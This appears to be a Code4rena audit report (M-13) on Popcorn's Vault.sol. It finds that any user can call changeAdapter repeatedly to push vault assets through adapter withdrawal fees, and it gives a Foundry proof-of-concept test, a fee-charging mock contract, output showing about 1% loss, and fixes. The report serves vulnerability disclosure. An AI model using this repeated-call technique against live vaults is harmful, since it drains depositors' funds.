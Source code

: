 ## Tags

- bug
- 2 (Med Risk)
- disagree with severity
- downgraded by judge
- primary issue
- selected for report
- sponsor confirmed
- M-13

# [vault.changeAdapter can be misused to drain fees](https://github.com/code-423n4/2023-01-popcorn-findings/issues/515) 

# Lines of code

https://github.com/code-423n4/2023-01-popcorn/blob/d95fc31449c260901811196d617366d6352258cd/src/vault/Vault.sol#L594-L613


# Vulnerability details

## Impact
The vault owner has an option to change the adapter for the vault.

The normal mechanism to change adapter is that the change should first be proposed by the owner via `proposeAdapter` and after a `quitPeriod`, it can be set via a call to `changeAdapter`

After an owner has changes an adapter, any user is still able to call the `changeAdapter` function again. This will "change" the adapter to the same adapter, as `proposedAdapter` variable still has the same value as set by the owner.

This extra call will redeem all funds from the adapter, and deposit again to the same adapter.
*When this adapter charges any fees, this will result in a direct loss of assets.*

For example Beefy finance has a default withdrawal fee of 0.1%. 
When the adapter has been set to a new BeefyAdapter, calling `changeAdapter`, will do a `_protocolWithdraw` and `_protocolDeposit` to deposit/withdraw all assets on the beefyvault. This results in a net loss of 0.1% of those assets, which will go to the beefyVault.
Repeatedly calling changeAdapter can cause a significant direct loss of user funds.

*note*: 
calling `changeAdapter` before an owner has called `proposeAdapter` fails because `adapter.deposit` will revert when `adapter` is `address(0)`. But it is still recommended to better check if `proposeAdapter` has been called when `changeAdapter` is executed.

## Proof of Concept
To test the scenario, I have created a new Mock contract to simulate an adapter that charges fees.
*test\utils\mocks\MockERC4626WithFees.sol*

    // SPDX-License-Identifier: AGPL-3.0-only
    pragma solidity >=0.8.0;
    import "forge-std/console.sol";
    import {MockERC4626} from "./MockERC4626.sol";
    import {MathUpgradeable as Math} from "openzeppelin-contracts-upgradeable/utils/math/MathUpgradeable.sol";
    import { IERC4626, IERC20 } from "../../../src/interfaces/vault/IERC4626.sol";

    contract MockERC4626WithFees is MockERC4626 {
        using Math for uint256;
        constructor(
            IERC20 _asset,
            string memory _name,
            string memory _symbol
        ) MockERC4626(_asset, _name, _symbol) {}


        /// @notice `previewRedeem` that takes withdrawal fees into account
        function previewRedeem(uint256 shares)
            public
            view
            override
            returns (uint256)
        {
            uint256 assets = convertToAssets(shares);
            uint256 withdrawalFee = 10;
            uint256 fee = assets.mulDiv(
                withdrawalFee,
                10_000,
                Math.Rounding.Up
            );
            assets -= fee;

            return assets;
        }

        function beforeWithdraw(uint256 assets, uint256 shares) internal override {
            MockERC4626.beforeWithdraw(assets,shares);
            uint256 assetsWithoutFees = convertToAssets(shares);
            uint256 fee = assetsWithoutFees - assets;
            // in real adapters, withdrawal would cause _underlyingBalance to change 
            // here simulate that by burning asset tokens. same effect. holdings decrease by fee percent
            asset.transfer(address(0xdead), fee); 
        }

    }

first need to add the imports to *.\test\vault\Vault.t.sol*

```diff
pragma solidity ^0.8.15;

+import "forge-std/console.sol";
 import { Test } from "forge-std/Test.sol";
 import { MockERC20 } from "../utils/mocks/MockERC20.sol";
 import { MockERC4626 } from "../utils/mocks/MockERC4626.sol";
+import { MockERC4626WithFees } from "../utils/mocks/MockERC4626WithFees.sol";
 import { Vault } from "../../src/vault/Vault.sol";
```

and change the `test__changeAdapter` test in *.\test\vault\Vault.t.sol* to test the impact of 10 calls to `changeAdapter`: 
```diff
@@ -824,7 +826,7 @@ contract VaultTest is Test {

   // Change Adapter
   function test__changeAdapter() public {
-    MockERC4626 newAdapter = new MockERC4626(IERC20(address(asset)), "Mock Token Vault", "vwTKN");
+    MockERC4626 newAdapter = new MockERC4626WithFees(IERC20(address(asset)), "Mock Token Vault", "vwTKN");
     uint256 depositAmount = 1 ether;

     // Deposit funds for testing
@@ -858,6 +860,19 @@ contract VaultTest is Test {
     assertEq(asset.allowance(address(vault), address(newAdapter)), type(uint256).max);

     assertEq(vault.highWaterMark(), oldHWM);
+
+    console.log(asset.balanceOf(address(newAdapter)) );
+    console.log(newAdapter.balanceOf(address(vault)) );
+
+    vm.startPrank(alice);
+    uint256 rounds = 10;
+    for (uint256 i = 0;i<rounds;i++){
+      vault.changeAdapter();
+    }
+
+    console.log(asset.balanceOf(address(newAdapter)) );
+    console.log(newAdapter.balanceOf(address(vault)) );
+
   }
```

Runing this test, results in the vault/adapter assets to have decreased by about 1% (10 times 0.1%)
The output:


    Running 1 test for test/vault/Vault.t.sol:VaultTest
    [PASS] test__changeAdapter() (gas: 2896175)
    Logs:
      2000000000000000000 <---- asset.balanceOf(address(newAdapter)
      2000000000000000000 <---- newAdapter.balanceOf(address(vault)
      1980089760419496416 <---- asset.balanceOf(address(newAdapter)
      1980089760419496416 <---- newAdapter.balanceOf(address(vault)

## Tools Used
manual review, forge

## Recommended Mitigation Steps
implement better checks for `changeAdapter`. It is possible to add an `onlyOwner` modifier to this function. Other option is to check if `proposedAdapterTime` is set, and set `proposedAdapterTime` to 0 after `changeAdapter` has been called. This will allow only 1 call to `changeAdapter` for every `proposeAdapter` call.